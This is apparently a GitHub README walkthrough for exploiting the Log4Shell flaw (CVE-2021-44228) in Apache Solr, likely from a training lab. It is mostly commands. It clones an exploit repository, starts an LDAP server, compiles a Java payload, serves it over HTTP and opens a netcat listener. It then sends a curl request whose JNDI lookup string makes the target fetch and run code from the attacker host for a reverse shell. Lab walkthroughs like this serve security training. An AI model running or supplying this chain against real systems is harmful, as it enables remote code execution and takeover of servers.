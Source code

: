 # Solar, exploiting log4j CVE-2021-44228

```
git clone https://github.com/1nf1n17yk1ng/log4j.git 

```

## 1. run log4j.py (This whill install all the nessasary files and start the LDAP server)

```
ifconfig tun0
python3 log4j.py 10.8.227.251

```

![image](https://user-images.githubusercontent.com/66146701/146671807-61ee758c-586b-4d45-9d50-34e7e6c4fa04.png)


## 2. Add attacker IP to Exploit.java file


![2021-12-19_00-52](https://user-images.githubusercontent.com/66146701/146672140-a1e70a73-1c3b-4e1b-a5c5-aeebf4def563.png)


## 3. Compile payload

```
javac Exploit.java -source 8 -target 8

```
![image](https://user-images.githubusercontent.com/66146701/146672281-b07fda17-a0a6-473d-8e15-bc717144d184.png)

## 4. temporary HTTP server

```
python3 -m http.server

```
![image](https://user-images.githubusercontent.com/66146701/146672342-69d18b1e-e605-4906-8ee9-51868033fb6e.png)


## 5. netcat listener

```
nc -lnvp 9999

```

![image](https://user-images.githubusercontent.com/66146701/146672355-780ef25c-b3b6-4e5a-8480-ba091b95a876.png)


## 6. Finally, all that is left to do is trigger the exploit and fire off our JNDI syntax! Note the changes in port number (now referring to our LDAP server) and the resource we retrieve, specifying our exploit:

```
curl 'http://10.10.45.175:8983/solr/admin/cores?foo=$\{jndi:ldap://10.8.227.251:1389/Exploit\}'

```

![image](https://user-images.githubusercontent.com/66146701/146672401-33233c9c-6d91-4923-96b0-fcf3b458e5db.png)


![image](https://user-images.githubusercontent.com/66146701/146672408-cbed5a01-ff4a-4cab-81e5-8704d7674a5d.png)

